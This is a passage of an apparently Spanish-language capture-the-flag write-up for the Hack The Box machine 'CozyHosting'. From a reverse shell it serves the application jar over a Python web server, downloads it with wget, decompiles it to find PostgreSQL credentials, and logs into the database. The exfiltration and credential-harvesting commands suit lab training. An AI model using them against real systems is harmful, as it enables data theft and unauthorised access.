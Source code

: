 Para pasarnos el archivo, en la maquina victima usare python para crear un servidor web

```ruby
python3 -m http.server 8086
```

Y en mi maquina solamente me lo descargare:

```ruby
wget http://cozyhosting.htb:8086/cloudhosting-0.0.1.jar
```

Como es un archivo jar, y no tengo un IDE para analizarlo, usare esta pagina para decompilarlo [https://jdec.app/](https://jdec.app/)

Al explorarlo un poco, vamos a poder ver credenciales para postgresql

![](/assets/img/htb-cozyHosting/10.png)

Asi que en la reverse shell que conseguimos, nos conectaremos:

```ruby
psql -U postgres -W -h 127.0.0.1 -d cozyhosting
```

Listamos las bases de datos con: **\l**:

![](/assets/img/htb-cozyHosting/11.png)

En mi caso yo ya estoy conectado a la base de datos **cozyhosting**, pero en caso de que no, usa el comando: **\c cozyhosting**
